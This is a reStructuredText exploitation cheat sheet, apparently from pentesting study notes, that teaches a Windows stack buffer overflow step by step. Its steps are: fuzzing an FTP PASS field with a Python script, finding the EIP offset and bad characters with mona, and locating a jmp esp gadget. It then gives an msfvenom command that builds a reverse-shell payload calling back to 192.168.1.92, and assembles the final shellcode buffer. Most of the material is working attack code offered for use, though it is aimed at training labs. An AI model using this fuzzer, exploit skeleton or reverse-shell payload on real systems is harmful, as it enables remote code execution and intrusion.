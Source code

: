 ################
Buffer Overflows
################

* https://bytesoverbombs.io/exploiting-a-64-bit-buffer-overflow-469e8b500f10
* https://www.abatchy.com/2017/05/jumping-to-shellcode.html
* http://www.voidcn.com/article/p-ulyzzbfx-z.html
* https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/
* https://medium.com/@johntroony/a-practical-overview-of-stack-based-buffer-overflow-7572eaaa4982

Immunity Debugger
=================

**Always run Immunity Debugger as Administrator if you can.**

There are generally two ways to use Immunity Debugger to debug an application:

1. Make sure the application is running, open Immunity Debugger, and then use :code:`File -> Attach` to attack the debugger to the running process.
2. Open Immunity Debugger, and then use :code:`File -> Open` to run the application.

When attaching to an application or opening an application in Immunity Debugger, the application will be paused. Click the "Run" button or press F9.

Note: If the binary you are debugging is a Windows service, you may need to restart the application via :code:`sc`

.. code-block:: none

    sc stop SLmail
    sc start SLmail

Some applications are configured to be started from the service manager and will not work unless started by service control.

Mona Setup
==========

Mona is a powerful plugin for Immunity Debugger that makes exploiting buffer overflows much easier. Download: :download:`mona.py <../_static/files/mona.py>`

| The latest version can be downloaded here: https://github.com/corelan/mona
| The manual can be found here: https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/

Copy the mona.py file into the PyCommands directory of Immunity Debugger (usually located at C:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands).

In Immunity Debugger, type the following to set a working directory for mona.

.. code-block:: none

    !mona config -set workingfolder c:\mona\%p

Fuzzing
=======

The following Python script can be modified and used to fuzz remote entry points to an application. It will send increasingly long buffer strings in the hope that one eventually crashes the application.

.. code-block:: python

    import socket, time, sys

    ip = "10.0.0.1"
    port = 21
    timeout = 5

    # Create an array of increasing length buffer strings.
    buffer = []
    counter = 100
    while len(buffer) < 30:
        buffer.append("A" * counter)
        counter += 100

    for string in buffer:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout)
            connect = s.connect((ip, port))
            s.recv(1024)
            s.send("USER username\r\n")
            s.recv(1024)

            print("Fuzzing PASS with %s bytes" % len(string))
            s.send("PASS " + string + "\r\n")
            s.recv(1024)
            s.send("QUIT\r\n")
            s.recv(1024)
            s.close()
        except:
            print("Could not connect to " + ip + ":" + str(port))
            sys.exit(0)
        time.sleep(1)

Check that the EIP register has been overwritten by A's (\\x41). Make a note of any other registers that have either been overwritten, or are pointing to space in memory which has been overwritten.

Crash Replication & Controlling EIP
===================================

The following skeleton exploit code can be used for the rest of the buffer overflow exploit:

.. code-block:: python

    import socket
    
    ip = "10.0.0.1"
    port = 21
    
    prefix = ""
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = ""
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    try:
        s.connect((ip, port))
        print("Sending evil buffer...")
        s.send(buffer + "\r\n")
        print("Done!")
    except:
        print("Could not connect.")

Using the buffer length which caused the crash, generate a unique buffer so we can determine the offset in the pattern which overwrites the EIP register, and the offset in the pattern to which other registers point. Create a pattern that is 400 bytes larger than the crash buffer, so that we can determine whether our shellcode can fit immediately. If the larger buffer doesn't crash the application, use a pattern equal to the crash buffer length and slowly add more to the buffer to find space.

.. code-block:: none

    $ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

While the unique buffer is on the stack, use mona's findmsp command, with the distance argument set to the pattern length.

.. code-block:: none

    !mona findmsp -distance 600
    ...
    [+] Looking for cyclic pattern in memory
    Cyclic pattern (normal) found at 0x005f3614 (length 600 bytes)
    Cyclic pattern (normal) found at 0x005f4a40 (length 600 bytes)
    Cyclic pattern (normal) found at 0x017df764 (length 600 bytes)
    EIP contains normal pattern : 0x78413778 (offset 112)
    ESP (0x017dfa30) points at offset 116 in normal pattern (length 484)
    EAX (0x017df764) points at offset 0 in normal pattern (length 600)
    EBP contains normal pattern : 0x41367841 (offset 108)
    ...

Note the EIP offset (112) and any other registers that point to the pattern, noting their offsets as well. It seems like the ESP register points to the last 484 bytes of the pattern, which is enough space for our shellcode.

Create a new buffer using this information to ensure that we can control EIP:

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "BBBB"
    padding = ""
    payload = "C" * (600-112-4)
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Crash the application using this buffer, and make sure that EIP is overwritten by B's (\\x42) and that the ESP register points to the start of the C's (\\x43).

Finding Bad Characters
======================

Generate a bytearray using mona, and exclude the null byte (\\x00) by default. Note the location of the bytearray.bin file that is generated.

.. code-block:: none

    !mona bytearray -b "\x00"

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \\x01 to \\xff:

.. code-block:: python

    #!/usr/bin/env python
    from __future__ import print_function

    for x in range(1, 256):
        print("\\x" + "{:02x}".format(x), end='')

    print()

Put the string of bad chars before the C's in your buffer, and adjust the number of C's to compensate:

.. code-block:: none

    badchars = "\x01\x02\x03\x04\x05...\xfb\xfc\xfd\xfe\xff"
    payload = badchars + "C" * (600-112-4-255)

Crash the application using this buffer, and make a note of the address to which ESP points. This can change every time you crash the application, so get into the habit of copying it from the register each time.

Use the mona compare command to reference the bytearray you generated, and the address to which ESP points:

.. code-block:: none

    !mona compare -f C:\mona\appname\bytearray.bin -a <address>

Find a Jump Point
=================

The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.

.. code-block:: none

    !mona jmp -r esp -cpb "\x00\x0a\x0d"

The mona find command can similarly be used to find specific instructions, though for the most part, the jmp command is sufficient:

.. code-block:: none

    !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"

Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

.. code-block:: none

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.92 LPORT=53 EXITFUNC=thread -b "\x00\x0a\x0d" -f c

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

Final Buffer
============

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "\x56\x23\x43\x9A"
    padding = "\x90" * 16
    payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..."
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix

Buffer Overflow Practice
========================

* https://github.com/justinsteven/dostackbufferoverflowgood
* https://github.com/stephenbradshaw/vulnserver
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/
